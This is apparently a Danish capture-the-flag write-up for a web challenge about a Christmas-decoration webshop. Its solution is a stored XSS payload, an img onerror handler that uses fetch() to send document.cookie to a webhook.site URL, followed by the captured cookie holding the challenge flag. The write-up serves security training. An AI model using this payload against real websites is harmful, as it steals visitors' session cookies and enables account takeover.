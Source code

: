 # Opgave

Velkommen til Det Nordiske Værksted

Frej har endelig fundet sin hjerteven, i hans helt egen webshop.

Det Nordiske Værksted er stedet, hvor kunder ikke bare køber julepynt, men også går på opdagelse i en verden af nordisk inspiration. Mange besøgende elsker at tage sig tid til at kigge rundt på siden, nyde udvalget og lade sig opsluge af stemningen.

Men er den helt sikker?

http://nordiskevaerksted.jul.fdca.dk:5000/ 

---

# Løsning

<img src="x" onerror="fetch('https://webhook.site/4a054488-09c9-4b34-bf97-04409e064152?cookie=' + document.cookie)">

visitor_id=a578e7f0-fc80-4081-8728-dd3d60feed1b; Flag=FDCA{N0gle_g4ng3_sk41_m4n_v3nt3}


---
